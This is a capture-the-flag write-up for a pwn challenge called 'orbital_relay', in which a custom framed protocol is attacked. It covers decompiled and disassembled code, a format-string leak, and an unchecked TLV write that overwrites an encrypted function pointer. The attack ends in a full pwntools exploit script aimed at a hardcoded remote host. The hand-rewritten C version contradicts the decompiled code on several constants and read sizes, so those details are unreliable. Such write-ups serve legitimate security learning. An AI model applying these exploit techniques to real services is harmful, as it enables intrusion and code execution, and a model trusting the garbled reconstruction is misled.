

> - Category: Pwn
> - Author: Woody Nguyen

## Challenge Description
An emergency relay node is still online after a key-rotation failure. The uplink accepts only framed packets with session integrity checks, and drops malformed traffic silently.

Blue team reports indicate the attacker never bypassed crypto directly, but still obtained execution in the relay process.

> nc 20.193.149.152 1339

## Analyzing
The problem gives us a binary file. First, let's try to check this binary:
```bash
$ file orbital_relay
orbital_relay: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1f74fa7cde3b38e42127d20ee5e2449ae8c83bb7, for GNU/Linux 3.2.0, not stripped

$ checksec --file=orbital_relay
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   65 Symbols        Yes   1               3               orbital_relay
```

We observed that this is a ELF 64-bit binary file amd it has not stripped. Next, trying to decompile this binary with IDA, we can see its flow:
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // eax
  char v5; // r8
  unsigned __int16 v6; // bx
  size_t v7; // rdi
  _DWORD *v8; // rax
  _DWORD *v9; // rbp
  void (*v10)(void); // rax
  _BYTE v11[2]; // [rsp+8h] [rbp-40h] BYREF
  unsigned __int16 v12; // [rsp+Ah] [rbp-3Eh]
  int v13; // [rsp+Ch] [rbp-3Ch]
  _QWORD v14[7]; // [rsp+10h] [rbp-38h] BYREF

  v14[1] = __readfsqword(0x28u);
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  qword_406E = 0;
  qword_40E4 = 0;
  memset(
    (void *)((unsigned __int64)&unk_4076 & 0xFFFFFFFFFFFFFFF8LL),
    0,
    8LL * (((unsigned int)&qword_406E - (unsigned int)((unsigned __int64)&unk_4076 & 0xFFFFFFFFFFFFFFF8LL) + 126) >> 3));
  v14[0] = 0;
  qmemcpy(&st, "relay://status", 14);
  readn(v14, 7);
  if ( LODWORD(v14[0]) == 1129208147 && *(_DWORD *)((char *)v14 + 3) == 1060337219 )
  {
    sess = 1145258561;
    LODWORD(qword_40E4) = 673332004;
    dword_40E0 = mix32(991242259, &sess);
    cb_enc = enc_cb((__int64)noop);
    write(1, &sess, 4u);
    while ( 1 )
    {
      readn(v11, 8);
      v6 = v12;
      if ( v12 > 0x500u )
        break;
      v7 = 1;
      if ( v12 )
        v7 = v12;
      v8 = malloc(v7);
      v9 = v8;
      if ( !v8 )
        break;
      if ( v6 )
      {
        readn(v8, v6);
        v6 = v12;
      }
      v4 = mac32(v9, v6, v11[0], v11[1], v11[0]);
      if ( v13 == v4 )
      {
        switch ( v5 )
        {
          case 3:
            if ( v6 == 4 && ((unsigned int)mix32(sess ^ (unsigned int)qword_40E4, v6) ^ 0x31C3B7A9) == *v9 )
              WORD2(qword_40E4) = 257;
            break;
          case 1:
            handle_diag(v9, v6);
            break;
          case 2:
            handle_ticket(v9, v6);
            break;
          case 9:
            if ( BYTE5(qword_40E4) && BYTE4(qword_40E4) > 2u )
            {
              v10 = (void (*)(void))enc_cb(cb_enc);
              v10();
            }
            free(v9);
            return 0;
        }
      }
      free(v9);
    }
  }
  return 0;
}
```
Base on this pseudocode, we can re-sub this binary like this:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

// Các cấu trúc dữ liệu và biến toàn cục giả định
uint32_t session_id;     // sess
uint64_t session_state;  // qword_40E4
void (*cb_enc)(void);    // encrypted callback

int main(int argc, const char **argv) {
    char header_buf[8];        // v11, v12, v13
    uint64_t init_packet[7];   // v14
    
    // Khởi tạo môi trường
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);

    // 1. Bước bắt tay (Handshake)
    // Kiểm tra magic bytes của gói tin khởi tạo
    readn(init_packet, 56); 
    // Kiểm tra chuỗi "relay" hoặc magic tương tự trong packet
    if (LODWORD(init_packet[0]) == 0x43504F53 && *((int*)((char*)init_packet + 3)) == 0x3F333F23) {
        
        // Khởi tạo session và token
        session_id = 0x44414441; // "DADA"
        session_state = 0x28242824; 
        
        // Tạo mã kiểm tra (checksum) ban đầu và mã hóa callback
        uint32_t mix_val = mix32(991242259, &session_id);
        cb_enc = (void (*)(void))enc_cb(noop);
        
        // Gửi Session ID cho Client
        write(1, &session_id, 4);

        while (1) {
            // 2. Nhận Header gói tin (8 bytes)
            // v11[0]: Type, v11[1]: Subtype, v12: Length, v13: MAC/Checksum
            if (readn(header_buf, 8) <= 0) break;

            uint8_t cmd_type = header_buf[0];
            uint16_t data_len = *(uint16_t*)(header_buf + 2);
            uint32_t expected_mac = *(uint32_t*)(header_buf + 4);

            if (data_len > 0x500) break; // Giới hạn kích thước gói tin

            // 3. Nhận Data gói tin
            void *payload = malloc(data_len ? data_len : 1);
            if (!payload) break;
            if (data_len) readn(payload, data_len);

            // 4. Kiểm tra tính toàn vẹn (MAC Check)
            uint32_t calculated_mac = mac32(payload, data_len, header_buf[0], header_buf[1], header_buf[0]);
            
            if (expected_mac == calculated_mac) {
                // 5. Xử lý câu lệnh (Dispatcher)
                switch (cmd_type) {
                    case 3: // Authenticate/Update State
                        if (data_len == 4) {
                            uint32_t key = (session_id ^ (uint32_t)session_state);
                            if (((uint32_t)mix32(key, data_len) ^ 0x31C3B7A9) == *(uint32_t*)payload) {
                                // Cập nhật trạng thái session (vùng byte 4-5 của qword_40E4)
                                *(uint16_t*)((char*)&session_state + 4) = 0x0101; 
                            }
                        }
                        break;

                    case 1: // Diagnostic
                        handle_diag(payload, data_len);
                        break;

                    case 2: // Ticketing
                        handle_ticket(payload, data_len);
                        break;

                    case 9: // Execute Encrypted Callback (Trùng khớp với mục tiêu khai thác)
                        if ((session_state >> 40) & 0xFF && ((session_state >> 32) & 0xFF) > 2) {
                            void (*dispatch)(void) = (void (*)(void))enc_cb(cb_enc);
                            dispatch(); // Gọi hàm đã được giải mã
                        }
                        free(payload);
                        return 0;
                }
            }
            free(payload);
        }
    }
    return 0;
}
```

Through this flow, we can see that this binary deploys a customize internet protocol with:
- Handshake: Verify
- MAC (Message Authentication Code) for each frame
- Stream Cipher for the data encryption process
- Encrypted Callback - pointer containing the function, which is XOR encrypted.

Checking more function in IDA, we will find the `win()`, which the `flag.txt` is opened. So, our target is try to call the `win()` function:
```c
unsigned __int64 win()
{
  FILE *v0; // rax
  FILE *v1; // rbx
  size_t v2; // rax
  _OWORD v4[8]; // [rsp+0h] [rbp-A8h] BYREF
  unsigned __int64 v5; // [rsp+88h] [rbp-20h]

  v5 = __readfsqword(0x28u);
  v0 = fopen("flag.txt", "r");
  if ( v0 )
  {
    v1 = v0;
    memset(v4, 0, sizeof(v4));
    if ( fgets((char *)v4, 128, v0) )
    {
      v2 = strlen((const char *)v4);
      write(1, v4, v2);
    }
    fclose(v1);
  }
  return v5 - __readfsqword(0x28u);
}
```

Checking the **Handshake** protocol:
- First, Client will send 7 bytes `SYNCv3?`, then it will be stored in `rsp -38h`. Specifically, at offset `0x1263`, buffer will get the handshake. Then the system will read 7 bytes from `stdin` (at offset `0x1293`):
  ```asm
  .text:0000000000001263   lea     rdi, [rsp+48h+var_38]   ; buffer nhận handshake
  .text:0000000000001268   ...
  .text:0000000000001293   call    readn                   ; đọc 7 bytes từ stdin
  ```
- Next, the system will check `SYNC` (first 4 bytes) and the `v3?` (`offset + 3`):
  ```asm
  .text:0000000000001298   cmp     dword ptr [rsp+48h+var_38], 434E5953h   ; "SYNC"
  .text:00000000000012A0   jz      short loc_12C3
  ```

  ```asm
  .text:00000000000012C3 loc_12C3:
  .text:00000000000012C3   cmp     dword ptr [rsp+48h+var_38+3], 3F337643h ; "v3?" (overlap 1 byte)
  .text:00000000000012CB   jnz     short loc_12A2
  ```
- Subsequentlly, the system will write Session ID (`ABCD` = `0x44434241`) in variable named `sess`:
  ```asm
  .text:00000000000012D2   lea     rsi, sess               ; buf = địa chỉ sess
  .text:00000000000012D9   mov     cs:sess, 44434241h      ; sess = "ABCD" = 0x44434241
  ```
- Finally, the server will return 4 bytes Session ID through stdout:
  ```asm
  .text:0000000000001309   mov     edx, 4                  ; n = 4
  .text:000000000000130E   mov     edi, 1                  ; fd = stdout
  .text:000000000000131A   call    _write                  ; write(1, &sess, 4)
  ```

Checking the **Farming** protocol, this protocal is a message, which contains 8-byte header and payload:
```asm
; ─── Đọc 8 bytes HEADER ───
.text:000000000000137E loc_137E:
.text:0000000000001383   mov     esi, 8                  ; n = 8 bytes
.text:0000000000001386   call    readn                   ; readn(r12, 8) — r12 = &header_buf

; ─── Parse header fields ───
; header_buf layout:
;   [rsp-40h] = chan  (u8,  offset 0)
;   [rsp-3Fh] = flags (u8,  offset 1)
;   [rsp-3Eh] = len   (u16 LE, offset 2)
;   [rsp-3Ch] = mac   (u32 LE, offset 4)

.text:000000000000138B   movzx   ebx, [rsp+48h+var_3E]  ; ebx = len (u16 LE)
.text:0000000000001390   cmp     bx, 500h               ; len > 0x500 → reject
.text:0000000000001395   ja      loc_12A2

; ─── Cấp phát payload buffer = malloc(len) ───
.text:00000000000013A7   call    _malloc                 ; malloc(len)
.text:00000000000013AC   mov     rbp, rax               ; rbp = payload_buf

; ─── Đọc len bytes payload (nếu len > 0) ───
.text:00000000000013B8   test    bx, bx
.text:00000000000013BB   jz      loc_1330               ; len=0 → skip đọc payload
.text:00000000000013C1   movzx   esi, bx
.text:00000000000013C4   mov     rdi, rax
.text:00000000000013C7   call    readn                   ; readn(payload_buf, len)

; ─── Verify MAC ───
.text:0000000000001330 loc_1330:
.text:0000000000001335   movzx   edx,  [rsp+48h+var_40]  ; chan  (u8)
.text:000000000000133A   movzx   ecx,  [rsp+48h+var_3F]  ; flags (u8) – arg4
; bx = len đã đọc từ trước
.text:0000000000001343   call    mac32                   ; mac32(payload, chan, flags, len)
.text:0000000000001348   cmp     [rsp+48h+var_3C], eax  ; header.mac == mac32(...)
.text:000000000000134C   jnz     short loc_1376          ; MAC mismatch → drop

; ─── Dispatch theo chan ───
.text:000000000000134E   cmp     r8b, 3   → handle_diag  (chan=3, loc_13E0)
.text:0000000000001358   cmp     r8b, 1   → handle_diag  (chan=1, loc_1418)
.text:0000000000001362   cmp     r8b, 2   → handle_ticket (chan=2, loc_1430)
.text:000000000000136C   cmp     r8b, 9   → win/enc_cb   (chan=9, loc_1440)
```
- Each message will be stored in this pattern:
  ```
  | chan (u8) | flags (u8) | len (u16 LE) | mac (u32 LE) | payload (len bytes) |
  ```

Next, checking some important function:
- `enc_cb(ptr)` - this function will encode/decode the pointer by XOR logic:
  ```c
  enc_cb(x) = (dword_40E0 << 32) ^ x ^ session_state_low32 ^ 0x9E3779B97F4A7C15

  // dword_40E0: init hash function = `mix32(0x3B152813)`
  ```

  - Since this function has only XOR logic, it can be self inverse by using XOR logic twice: `enc_cb(enc_cb(x)) = x`
- `mac32(payload, len, type, subtype, type)` - calculate MAC for `frame`:
  ```c
  init = (type << 16) ^ sess ^ subtype ^ 0x9E3779B9
  for each byte b in payload:
      init = ROL(init, 7) ^ (b + 0x3D)
  ```

## Exploit

### Vuln Finding
This binary has **TLV** (Type Length Value) vulnerable in `handle_diag`:
- This is the pattern of a TLV loops:
  ```asm
  ; Entry: rdi = payload ptr, rsi = len (u16 từ header)
  .text:0000000000001864   movzx r14d, si          ; r14 = total payload length
  .text:000000000000187C   movzx r10d, byte [rdi+1] ; r10 = size (byte thứ 2)
  .text:0000000000001881   movzx eax,  byte [rdi]   ; eax = tag (byte thứ 1)
  .text:0000000000001887   lea   edx, [r10+2]       ; edx = size + 2 (header TLV)
  .text:00000000000018A2   lea   r13, st            ; r13 → buffer st (global)
  ; Mỗi vòng đọc: [tag=al, size=bl, value@r12+rbp]
  ```
- Checking the tag `0x10`, the system will decode N bytes by Steam Cipher and write it into buffer `st`:
  ```asm
  .text:0000000000001908 loc_1908:           ; ← entry mỗi TLV
  .text:0000000000001908   cmp  al, 10h      ; tag == 0x10 ?
  .text:000000000000190A   jnz  short loc_18B0

  ; Giải mã bl bytes bằng stream cipher (kbyte XOR):
  .text:0000000000001912   mov  r11d, cs:dword_40E0
  .text:0000000000001922   xor  r11d, dword ptr cs:qword_40E4  ; key = dword_40E0 XOR sess_state_low
  .text:0000000000001930 loc_1930:                              ; loop
  .text:0000000000001930   movzx r8d, byte [r9+rcx]            ; ciphertext byte
  .text:0000000000001937   mov   edi, r11d
  .text:000000000000193A   call  kbyte                         ; keystream byte
  .text:000000000000193F   xor   r8d, eax
  .text:0000000000001942   mov   [r13+rcx+0], r8b              ; → st[i] (buffer toàn cục)
  .text:0000000000001947   add   rcx, 1
  .text:000000000000194B   cmp   r15, rcx
  .text:000000000000194E   jnz   short loc_1930
  ```
- Next, at tag `0x22, system will `session_state` byte 4 = `value & 7`:
  ```asm
  .text:00000000000018B0 loc_18B0:
  .text:00000000000018B0   cmp  al, 22h      ; tag == 0x22 ?
  .text:00000000000018B2   jnz  loc_1980
  .text:00000000000018B8   test bl, bl       ; size phải > 0
  .text:00000000000018BA   jz   loc_1980

  ; Ghi value & 7 vào qword_40E4 byte 4 (= session_state):
  .text:00000000000018C3   movzx eax, byte [r12+rax]   ; value byte
  .text:00000000000018C8   and   eax, 7               ; & 0x7
  .text:00000000000018CB   mov   byte ptr cs:qword_40E4+4, al  ; session_state.b4 = value & 7
  ```
- At tag `0x30`, `mix32(session_state_low + value)` will be done and stored in `dword_40E0`:
  ```asm
  .text:0000000000001980 loc_1980:
  .text:0000000000001980   cmp  al, 30h      ; tag == 0x30 ?
  .text:0000000000001982   jnz  short loc_19B0
  .text:0000000000001984   cmp  bl, 4        ; size phải == 4
  .text:0000000000001987   jnz  short loc_19B0

  .text:000000000000198C   mov  edi, dword ptr cs:qword_40E4     ; session_state_low
  .text:0000000000001992   add  edi, [r12+rax]                  ; + value (4 bytes)
  .text:0000000000001996   call mix32
  .text:000000000000199B   xor  cs:dword_40E0, eax              ; dword_40E0 ^= mix32(...)
  ```
- The vuln can be found at tag `0x31`, offset `0x19BC - 0x19C0`, since there are no verify, so random 8-byte in TLV value can be written in `cb_enc`:
  ```asm
  .text:00000000000019B0 loc_19B0:
  .text:00000000000019B0   cmp  al, 31h      ; tag == 0x31 ?
  .text:00000000000019B2   jnz  short loc_19D0
  .text:00000000000019B4   cmp  bl, 8        ; size phải == 8
  .text:00000000000019B7   jnz  short loc_19D0

  ; ↓ GHI TRỰC TIẾP 8 bytes từ payload vào cb_enc — KHÔNG CÓ KIỂM TRA
  .text:00000000000019B9   movzx eax, bp
  .text:00000000000019BC   mov   rax, [r12+rax]   ; đọc 8 bytes từ payload
  .text:00000000000019C0   mov   cs:cb_enc, rax   ; ← overwrite cb_enc (function pointer)
  ```
- Since this vuln, flag can be leak at tag `0x40`:
  ```asm
  .text:00000000000019D0 loc_19D0:
  .text:00000000000019D0   cmp  al, 40h      ; tag == 0x40 ?
  .text:00000000000019D2   jnz  loc_18D1     ; unknown tag → skip

  ; Guard: chỉ chạy nếu qword_40E4+5 != 0 && qword_40E4+4 > 1
  .text:000000000000199F   lea  rsi, st
  .text:00000000000019FF   mov  edx, cs:dword_40E0
  .text:0000000000001A02   mov  rcx, rsi           ; arg3 = &st
  .text:0000000000001A07   xor  eax, eax
  .text:0000000000001A09   mov  r8, cs:keep_win    ; arg5 = &win (địa chỉ win rò ra đây)
  .text:0000000000001A10   call ___printf_chk      ; printf(2, st, dword_40E0, &st, win_addr)
  ```

### Attacking Strategies
This graph will shown how to attack this case:


Here is the exploit step:
1. **Handshake** — Send `SYNCv3?`, receive 4-byte Session ID (`0x44434241`).

2. **Auth (chan 3)** — Send token `mix32(session_state_low ^ sess) ^ 0x31C3B7A9`. On success the server sets `byte4 = 1`, `byte5 = 1`, unlocking higher-privilege channels.

3. **Diag tag `0x22`** — Send a chan-1 TLV `[0x22, 0x01, 0xFF]`. This sets `session_state.byte4 = 7` (must be `> 2` for chan-9 to proceed past its guard).

4. **Diag tag `0x10`** — Encrypt the format string `%x.%p.%p.` using the stream cipher (`kbyte(dword_40E0 ^ session_state_low, i)`) and send it as a `0x10` TLV. The server decrypts it back to the plaintext and stores it in `st`.

5. **Diag tag `0x40`** — Send a single `[0x40, 0x00]` TLV. The server calls:
   ```c
   __printf_chk(2, st, dword_40E0, &st, keep_win)
   ```
   The format string `%x.%p.%p.` leaks three values: `dword_40E0`, `&st` (→ PIE base), and the `win` pointer passed via `keep_win`.

6. **Compute** — Since `enc_cb` is self-inverse, the correctly encrypted value is:
   ```python
   target_cb = win_addr ^ (dword_40E0 << 32) ^ session_state_low ^ 0x9E3779B97F4A7C15
   ```
   Setting `cb_enc = target_cb` ensures `enc_cb(target_cb) == win_addr`.

7. **Diag tag `0x31`** — Send TLV `[0x31, 0x08] + pack('<Q', target_cb)`. The handler blindly writes `target_cb` into `cb_enc`.

8. **Chan 9** — Send a chan-9 message with any payload (MAC is still required). The server calls `enc_cb(cb_enc)` → result is `win_addr` → `call rax` → `win()` reads `flag.txt` → flag is written to stdout.

### Exploit code
Here is the python source code:
```python
#!/usr/bin/env python3
from pwn import *
import struct
import sys

context.log_level = 'debug'

def mix32(x):
    x &= 0xFFFFFFFF
    y = ((x << 13) & 0xFFFFFFFF) ^ x
    z = (y >> 17) ^ y
    w = ((z << 5) & 0xFFFFFFFF) ^ z
    return w & 0xFFFFFFFF

def kbyte(key, i):
    val = (key + (i & 0xFFFF) * 0x045D9F3B) & 0xFFFFFFFF
    return mix32(val)

def mac32(data, data_len, cmd_type, subtype, r8_byte):
    sess_val = 0x44434241
    eax = ((r8_byte & 0xFF) << 16) ^ sess_val ^ (subtype & 0xFF) ^ 0x9E3779B9
    eax &= 0xFFFFFFFF
    for i in range(data_len):
        eax = ((eax << 7) | (eax >> 25)) & 0xFFFFFFFF
        eax ^= (data[i] + 0x3D) & 0xFFFFFFFF
    return eax

def send_cmd(io, cmd_type, subtype, payload):
    data_len = len(payload)
    computed_mac = mac32(payload, data_len, cmd_type, subtype, cmd_type)
    hdr = struct.pack('<BBhI', cmd_type, subtype, data_len, computed_mac)
    io.send(hdr + payload)

SESS             = 0x44434241
SESSION_STATE_LOW = 0x28223B24
DWORD_40E0_INIT  = mix32(0x3B152813)

def exploit():
    LOCAL = '--local' in sys.argv
    io = process('./orbital_relay') if LOCAL else remote('20.193.149.152', 1339)

    # 1. Handshake
    io.send(b'SYNCv3?')
    io.recv(4, timeout=10)   # Session ID

    dword_40E0        = DWORD_40E0_INIT
    session_state_low = SESSION_STATE_LOW

    # 2. Auth (chan 3)
    auth_val = mix32(session_state_low ^ SESS) ^ 0x31C3B7A9
    send_cmd(io, 3, 0, struct.pack('<I', auth_val))

    # 3. Set session_state byte4 = 7  (tag 0x22)
    send_cmd(io, 1, 0, bytes([0x22, 0x01, 0xFF]))

    # 4. Write format string into st  (tag 0x10)
    dec_key  = dword_40E0 ^ session_state_low
    fmt_str  = b'%x.%p.%p.'
    encrypted = bytes([b ^ (kbyte(dec_key, i) & 0xFF) for i, b in enumerate(fmt_str)])
    send_cmd(io, 1, 0, bytes([0x10, len(fmt_str)]) + encrypted)

    # 5. Leak via printf  (tag 0x40)
    send_cmd(io, 1, 0, bytes([0x40, 0x00]))
    leak   = b''.join(io.recvuntil(b'.', timeout=5) for _ in range(3))
    parts  = leak.decode().split('.')
    leaked_40E0 = int(parts[0], 16) & 0xFFFFFFFF
    leaked_win  = int(parts[2], 16)
    io.recvline(timeout=2)  # consume newline/separator

    # 6. Compute target cb_enc  =  enc_cb(win_addr)
    target_cb = (leaked_win
                 ^ ((leaked_40E0 << 32) & 0xFFFFFFFFFFFFFFFF)
                 ^ session_state_low
                 ^ 0x9E3779B97F4A7C15) & 0xFFFFFFFFFFFFFFFF

    # 7. Overwrite cb_enc  (tag 0x31)
    send_cmd(io, 1, 0, bytes([0x31, 0x08]) + struct.pack('<Q', target_cb))

    # 8. Trigger win via chan 9
    send_cmd(io, 9, 0, b'')
    flag = io.recvall(timeout=5)
    log.success(f'FLAG: {flag.decode(errors="replace")}')
    io.close()

if __name__ == '__main__':
    exploit()
```

Here is the result:
```bash
[+] FLAG: BITSCTF{0rb1t4l_r3l4y_gh0stfr4m3_0v3rr1d3}
```